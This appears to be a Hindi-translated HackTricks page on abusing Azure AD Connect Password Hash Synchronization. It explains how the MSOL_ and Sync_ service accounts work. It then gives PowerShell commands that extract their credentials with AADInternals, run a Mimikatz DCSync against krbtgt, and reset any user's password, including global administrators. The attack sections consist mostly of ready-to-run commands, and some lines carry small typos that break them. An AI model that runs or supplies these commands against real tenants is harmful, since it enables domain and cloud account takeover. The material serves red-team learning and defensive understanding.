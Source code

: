 # Az - PHS - पासवर्ड हैश सिंक्रनाइज़ेशन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## मूल जानकारी

**पासवर्ड हैश सिंक्रनाइज़ेशन** हाइब्रिड पहचान को पूरा करने के लिए प्रयुक्त साइन-इन विधियों में से एक है। **Azure AD Connect** एक ऑन-प्रिमाइसेस Active Directory इंस्टेंस से यूजर के पासवर्ड के हैश का हैश, क्लाउड-आधारित Azure AD इंस्टेंस में सिंक्रनाइज़ करता है।

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यह कंपनियों द्वारा ऑन-प्रिम AD को Azure AD के साथ सिंक्रनाइज़ करने के लिए **सबसे आम विधि** है।

सभी **यूजर्स** और पासवर्ड हैशेस का **हैश** ऑन-प्रिम से Azure AD में सिंक्रनाइज़ किया जाता है। हालांकि, **स्पष्ट-पाठ पासवर्ड** या **मूल** **हैशेस** Azure AD में नहीं भेजे जाते हैं।\
इसके अलावा, **बिल्ट-इन** सुरक्षा समूह (जैसे कि डोमेन एडमिन्स...) Azure AD में **सिंक्रनाइज़ नहीं किए जाते** हैं।

**हैशेस सिंक्रनाइज़ेशन** हर **2 मिनट** में होता है। हालांकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **खाता** **समाप्ति** Azure AD में **सिंक्रनाइज़ नहीं** होती है। इसलिए, एक यूजर जिसका **ऑन-प्रिम पासवर्ड समाप्त हो गया है** (परिवर्तित नहीं किया गया है) वह पुराने पासवर्ड का उपयोग करके Azure संसाधनों तक पहुँच जारी रख सकता है।

जब एक ऑन-प्रिम यूजर Azure संसाधन तक पहुँचना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** जैसी सुविधाओं के लिए आवश्यक है जैसे कि **Identity Protection** और AAD Domain Services।

## पिवोटिंग

जब PHS कॉन्फ़िगर किया जाता है तो कुछ **विशेषाधिकार प्राप्त खाते** स्वचालित रूप से **बनाए जाते हैं**:

* खाता **`MSOL_<installationID>`** ऑन-प्रिम AD में स्वचालित रूप से बनाया जाता है। इस खाते को **Directory Synchronization Accounts** भूमिका दी जाती है (देखें [दस्तावेज़ीकरण](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका अर्थ है कि इसमें ऑन-प्रिम AD में **प्रतिकृति (DCSync) अनुमतियाँ** होती हैं।
* Azure AD में **`Sync_<on-prem ADConnect Server का नाम>_installationID`** नामक एक खाता बनाया जाता है। यह खाता Azure AD में किसी भी यूजर (सिंक्रनाइज़ या क्लाउड केवल) का **पासवर्ड रीसेट** कर सकता है।

इन दो पिछले विशेषाधिकार प्राप्त खातों के पासवर्ड **SQL सर्वर पर संग्रहीत** किए जाते हैं जो **Azure AD Connect स्थापित** सर्वर पर होता है। एडमिन उन विशेषाधिकार प्राप्त यूजर्स के पासवर्ड स्पष्ट-पाठ में निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक टेबल से कॉन्फ़िगरेशन निकालना संभव है, जिसमें से एक एन्क्रिप्टेड है:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्टेड है और इसमें ऑन-प्रिम AD में **`MSOL_*`** यूजर के पासवर्ड और AzureAD में **Sync\_\*** का पासवर्ड शामिल है। इसलिए, इन्हें समझौता करने से AD और AzureAD में प्रिवेस्क करना संभव है।

आप इन क्रेडेंशियल्स कैसे संग्रहीत और डिक्रिप्ट किए जाते हैं, इसका [पूरा अवलोकन इस वार्ता में पा सकते हैं](https://www.youtube.com/watch?v=JEIR5oGCwdg)।

### **Azure AD connect सर्वर** का पता लगाना

यदि **Azure AD connect स्थापित सर्वर** डोमेन से जुड़ा हुआ है (दस्तावेज़ों में सिफारिश की गई), तो इसे इसके साथ पता लगाना संभव है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### MSOL\_\* का दुरुपयोग
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का उपयोग करके इन क्रेडेंशियल्स को प्राप्त कर सकते हैं।
{% endhint %}

### Sync\_\* का दुरुपयोग

**`Sync_*`** अकाउंट को समझौता करके किसी भी उपयोगकर्ता (ग्लोबल एडमिनिस्ट्रेटर्स सहित) का **पासवर्ड रीसेट** करना संभव है।
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह संभव है कि केवल **क्लाउड उपयोगकर्ताओं के पासवर्ड को मोडिफाई किया जाए** (भले ही वह अप्रत्याशित हो)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
इस उपयोगकर्ता का पासवर्ड डंप करना भी संभव है।

{% hint style="danger" %}
एक और विकल्प होगा **सेवा सिद्धांत को विशेषाधिकार प्राप्त अनुमतियाँ सौंपना**, जिसे **सिंक** उपयोगकर्ता के पास **अनुमतियाँ** होती हैं, और फिर **उस सेवा सिद्धांत को प्राप्त करना** प्रिवेस्क के रूप में।
{% endhint %}

### सीमलेस SSO

PHS के साथ सीमलेस SSO का उपयोग संभव है, जो अन्य दुरुपयोगों के लिए संवेदनशील है। इसे जांचें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** को अपनी हैकिंग ट्रिक्स साझा करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
